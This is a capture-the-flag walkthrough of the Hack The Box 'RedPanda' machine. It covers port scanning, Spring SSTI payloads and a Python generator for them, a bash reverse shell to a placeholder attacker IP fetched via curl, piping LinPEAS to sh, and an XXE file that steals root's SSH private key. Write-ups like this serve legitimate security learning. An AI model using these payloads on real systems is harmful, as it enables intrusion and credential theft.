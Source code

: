 # RedPanda    
### A demonstration walkthrough of a pen test process using HTB's RedPanda with some normal dead ends as an example.  

#### Setup
/etc/hosts appended with "10.10.11.170 redpanda.htb"  
Firefox proxied via Zap, Zap proxied via Burp with intercept initially turned off  

Basic scan of all ports 
```
nmap -p- redpanda.htb
```
Shows ssh/22 and http/8080

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4  redpanda.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports redpanda.htb
nikto -h redpanda.htb:8080
```
Interesting Results (NMAP):  
- Running OpenSSH 8.2p1 and an unknown hhtp-proxy "Made by Spring Boot" in title  
Interesting Results (NIKTO):   
- /stats/ directory discovered
- HTTP PUT and DELETE methods allowed  
- "content-disposition" header returned    

Browse for unlinked files/resources  
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://redpanda.htb:8080/FUZZ | grep -wv 404 | grep 0000
```
POST allowed to redpanda.htb:8080/search
Confirm /stats/ responds to GET requests

**DEAD END:** Running OWASP ZAP only turned up vectors for attacking RedPanda clients.  
**DEAD END:** Browsing site showed nothing interesting in source.  
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\nredpanda\napache\nwoodenk\ndamian' > redpanda.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > redpanda.htb.passwords
hydra -L redpanda.htb.usernames -P redpanda.htb.passwords -e nsr ssh://redpanda.htb
```

**DEAD END:**  Attempted various SQLi, XXE, and Command injection on search function

### SSTI
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.  

See [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for further information.

We are provided with a list of payloads:
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Some of the payloads didn't work, since some of the symbols (specifically $) are blacklisted by the server.

### Creating a RCE
The nmap scan indicated the app is powered by "Spring Boot"  
Not being familar with Spring Boot, a Google found this good template [here](https://blog.hawkeyesecurity.com/2017/12/13/rce-via-spring-engine-ssti/)  
This returns /etc/passwd

Replace the blacklisted $ with #
```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
This confirms the user "woodenk" with the standard home directory; still no password.

Python program to convert the command we want into a string suitable for SSTI in RedPanda search
```
#!/usr/bin/python3

def main():

        command = "whoami" # Edit this line for acceptable SSTI encoding 
        convert = []

        for x in command:
            convert.append(str(ord(x)))
        
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()
```
`command = "whoami"` confirms the website is running as user woodenk
### USER FLAG SUCCESS!
`command = "cat /home/woodenk/user.txt"` provides the user flag

### Plan for escalation
Using SSTI: 1) Upload shell script to create reverse shell.  2) Invoke shell script

Host the following shell script on the attacking machine.  I prefer:  `python -m http.server 8000`
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.ATTACKER.IP/9001 0>&1"
```
SSTI to upload script
`command = "curl 10.10.ATTACKER.IP:8000/shell.sh --output /tmp/shell.sh"`

Create netcat listener, then invoke uploaded shell script
`nc -nvlp 9001`

SSTI to invoke script
`command = "bash /tmp/shell.sh"`

### Connected with reverse shell as woodenk
Time for some basic enumeration on panda and woodenk
```
find / -name "*panda*" 2>/dev/null
find / -name "*woodenk*" 2>/dev/null
```

This gives us a source code directory (maybe some nice config info) and user XML files in /credits  

```
cd /opt/panda_search
find . -type f -exec grep -H 'text-to-find-here' {} \;
```

This gives mysql connection info and 'woodenk' embedded in some images  

`./src/main/java/com/panda_search/htb/panda_search/MainController.java:            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");`


Try LinPEAS to find escalation  
From github to your attacking machine (HTB machines don't resolve WWW domains)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```
On target machine upload linPEAS
```
curl -L http://10.10.14.2:8000/linpeas.sh | sh
```
**DEAD END** nothing I saw for OS level escalation  

### MySQL dump
```
mysqldump -u woodenk -pRedPandazRule red_panda 
```
This tells us the "panda" table has four fields (name, bio, imgloc, author)

ROOT requires XXE (this is just crib notes)
Full walkthrough [here](https://shakuganz.com/2022/07/12/hackthebox-redpanda/)

XXE.1 Set the "artist" value in an attack image
```
exiftool -Artist="../tmp/gg" pe_exploit.jpg
```

XXE.2 Create `gg_creds.xml` with the following content
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/pe_exploit.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```

XXE.3 upload files and modify the redpanda.log
```
wget 10.10.ATTACKER.IP/pe_exploit.jpg -P /tmp
wget 10.10.ATTACKER.IP/gg_creds.jpg -P /tmp
echo "222||a||a||/../../../../../../tmp/pe_exploit.jpg" > /opt/panda_search/redpanda.log
```

In minute or two /tmp/gg_creds.xml is updated
```
cat /tmp/gg_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/pe_exploit.jpg</uri>
    <views>2</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNza...cut...mVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>3</totalviews>
</credits>
```

Put the `foo` element value into a file `le_key.txt` and login as root
```
chmod 600 ./le_key.txt
ssh root@redpanda.htb -i le_key.txt
```

### ROOT SUCCESS!
